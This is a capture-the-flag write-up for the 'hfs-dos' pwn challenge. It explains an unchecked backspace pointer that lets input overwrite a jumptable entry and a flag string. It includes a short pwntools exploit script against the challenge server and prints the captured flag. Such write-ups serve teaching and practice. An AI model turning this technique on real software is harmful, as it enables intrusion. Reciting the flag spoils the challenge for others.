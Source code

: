 # hfs-dos

**Category**: pwn
**Authors**: @viktoredstrom, @n00byedge

---

We're prompted with a very basic shell with the following commands implemented: ping, pong, vers, myid and exit (every command besides the later just printing out dummy strings). Which function should be executed given some input is implemented as a jumptable:

![jumptable](img/jmp.png?raw=true)

The program stores input one character at the time inside a buffer, and if four characters are read the read pointer is reset to its original position. However we're also able to "delete" characters in our input i.e move said pointer backwards, and there's no lower-bound check. So we're able to overwrite anything which happens to be before our input buffer.

![jumptable](img/no-check.png?raw=true)
![jumptable](img/buf.png?raw=true)
(inputBuf is initially set to 0x39C)

From here on:
1. Turn "FLAG1" into "FLAG2"
2. Overwrite some function pointer inside the jumptable with the program entry (0x174).
3. Execute command

## Solution

```python
from pwn import *
sock = remote('hfs-os-01.play.midnightsunctf.se', 31337)
sock.readuntil('[HFS_MBR]>') ; sock.send('sojupwner\r')
sock.readuntil('[HFS-DOS]>') ; sock.send('\x7f' * 11 + '\x74\r')
sock.readuntil('[HFS-DOS]>') ; sock.send('\x7f' * 3 + '2\r')
sock.readuntil('[HFS-DOS]>') ; sock.send('pong')
sock.interactive()
```

It's almost comical how small the solution is, `midnight{th4t_was_n0t_4_buG_1t_is_a_fEatuR3}`
